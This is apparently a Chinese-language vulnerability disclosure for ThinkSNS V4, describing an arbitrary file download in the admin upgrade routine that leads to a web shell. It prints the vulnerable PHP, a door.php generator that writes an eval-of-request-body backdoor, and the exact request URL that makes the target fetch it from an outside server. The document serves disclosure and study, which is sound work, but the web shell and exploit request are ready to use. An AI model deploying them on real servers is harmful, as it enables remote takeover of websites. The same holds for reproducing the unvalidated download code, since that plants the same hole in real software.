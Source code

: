 # ThinkSNS_V4 后台任意文件下载导致Getshell

## Affected Version 

	ThinkSNS官网：http://www.thinksns.com
	
	网站源码版本：ThinkSNS V4  更新时间：2017-09-13
	
	程序源码下载：http://www.thinksns.com/experience.html（填写信息后，提交并下载代码）
	
	默认后台地址：http://127.0.0.1/index.php?app=admin&mod=Public&act=login
	
	默认用户密码：管理员帐号: admin@admin.com 密码自设，大于6位

## Code analysis

存在漏洞代码`\ts4\apps\admin\Lib\Action\UpgradeAction.class.php`中的一个函数中。

	public function step1()
	{
	    $downUrl = $_GET['upurl'];
	    $downUrl = urldecode($downUrl);
	    $path = DATA_PATH.'/'.'upgrade/'.basename($downUrl);
	
	    // # 备份老配置文件
	    $oldConf = file_get_contents(CONF_PATH.'/thinksns.conf.php');
	    file_put_contents(DATA_PATH.'/old.thinksns.conf.php', $oldConf);
	
	    // # 下载增量包
	    is_dir(dirname($path)) or mkdir(dirname($path), 0777, true);
	    file_put_contents($path, file_get_contents($downUrl));
	    file_exists($path) or $this->showError('下载升级包失败，请检查'.dirname($path).'目录是否可写，如果可写，请刷新重试！');
	
	    // 验证hash判断包是否合法。
	    $filename = dirname($path).'/upgrade.json';
	    $data = file_get_contents($filename);
	    $data = json_decode($data, false);
	    if (md5_file($path) != $data->md5) {
	        $this->showError('更新包校验失败，请重新执行升级.');
	    }




函数

	file_put_contents — 将一个字符串写入文件
	file_get_contents — 将整个文件读入一个字符串


在这段函数中，先备份老配置文件，然后下载增量包，下载参数$downUrl未经过任何处理，直接下载到网站目录下，接着验证hash判断包是否合法，但是并没有删除下载的增量包，
导致程序在实现上存在任意文件下载漏洞，下载远程文件到网站目录下，攻击者可指定第三方url下载恶意脚本到网站目录，进一步触发恶意代码，控制网站服务器。
	
远程下载文件，在另一个服务器上创建door.php。

	<?php   
	echo "<?php";
	echo "eval(file_get_contents('php://input'));";  
	echo "?>";  
	?>  


远程下载 	

`http://127.0.0.1:8000/ts4/index.php?app=admin&mod=Upgrade&act=step1&upurl=http://192.168.86.194:8000/door.php`



会在`ts4\data\upgrade`出现下载的`door.php`文件。



## References

[ThinkSNS_V4 后台任意文件下载导致Getshell](https://mp.weixin.qq.com/s?__biz=MzA3NzE2MjgwMg==&mid=2448903598&idx=1&sn=597d488c492fca52b49b0f5ddddcadb8&chksm=8b55ddf3bc2254e5135ff7f9a10cdde3ce710e32d53fb4575b02411a9b3bbe23ec26207f8196&mpshare=1&scene=23&srcid=0311KzWTeNcTSxfCLzcIRd7F#rd)
